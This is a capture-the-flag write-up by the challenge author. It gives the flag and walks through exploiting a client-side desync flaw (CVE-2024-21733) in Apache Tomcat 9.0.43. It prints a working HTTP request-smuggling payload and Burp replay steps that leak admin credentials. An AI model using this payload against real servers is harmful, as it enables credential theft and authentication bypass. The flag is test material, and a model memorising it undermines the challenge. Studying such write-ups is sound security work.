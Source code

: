 # Blood In Blood Out
Author: LOLASL

Flag: `EPT{vatos_locos_4_ever_ese!_<3}`
## Description
```
Hey carnal, sometimes you gotta slide in a little extra something for the homies. 
Theres a placa looking every minute so keep it tight, ese.

*Access the challenge on https://challengevm*
```

## Provided challenge files
* [bloodinbloodout_source.tar.gz](../bloodinbloodout_source.tar.gz)

## Notes from the creator

The inspiration of the challenge came from [this tweet](https://twitter.com/pyn3rd/status/1824101455969788274) and the resemblance with HeartBleed was the background for choosing the "Blood In Blood Out"-theme. I realize that the provided source code might have caused more harm than good with some poorly written scripts that simulated admin login with an irrelevant cookie, as well as the selfsigned cert including the keystore pass etc. which also wasn't relevant for the challenge. I provided the source to make sure you didn't end up in a bruteforce, SQLi, or other form of login bypass rabbit hole as well as to highlight that it ran explicitly on tomcat:9.0.43. My apologies to those that spent countless hours on trying to find some crazy vuln or other weirdness in the provided source code and irrelevant files. I also know that some of the github POCs are less reliable than the approach used in my intended solution which might have caused some frustration.

Personally I agree with the author of the above tweet that this vulnerability to some extent has been underestimated. It has a CVSS score of 5.3, but as you will see yourself this could easily lead to a critical authentication bypass.

## Intended Solution

The intended path for solving this challenge was to identify that the application runs on Apache Tomcat 9.0.43. This information is revealed when getting a 404 response:

![404 not found](img/404_not_found.png)

This is also explicitly defined in the provided Dockerfile:

![Dockerfile](img/dockerfile.png)



A quick google search for "tomcat 9.0.43 vulnerabilities" should point you towards CVE-2024-21733. *Client-side de-sync (CSD) vulnerabilities occur when a web server fails to correctly process the Content-Length of POST requests* There are plenty of POCs and writeups on how to exploit this vulnerability and one of the first you find should be [this one by xer0dayz who originally found the vuln](https://hackerone.com/reports/2327341) that has a working payload out of the box:
 
``` http
POST / HTTP/1.1
Host: hostname
Sec-Ch-Ua: "Chromium";v="119", "Not?A_Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.159 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Priority: u=0, i
Connection: keep-alive
Content-Length: 6
Content-Type: application/x-www-form-urlencoded

X
```

 
You can then use Burp to capture one of your own login submissions and copy/paste the above (just keep your original request line e.g. `POST /welcome.jsp HTTP/1.1`and the host header e.g. `Host: 10.128.3.73` from your request to target your victim host. Also remember to turn off (uncheck) the automatic content-length update in Burp when playing with desync/CL request smuggling.

![Burp settings](img/burp_cl.png)

If you then replay this with burp repeater the response should leak the credentials from the simulated admin login.

![Exploit response](img/burp_response.png)

Now use these credentials in the login form:

![Login form](img/login.png)

Profit:

![Profit](img/profit.png)

## Vatos Locos ##
I suppose most of you have neither heard of nor seen the movie Blood In Blood Out. Although I am not sure if it really withstands the test of time as the over-acting and endless amount of epic quotes might make it unintentionally hilarious, I still recommend giving this masterpiece from the 90s a watch! (Fun fact: This movie was actually produced by Disney!)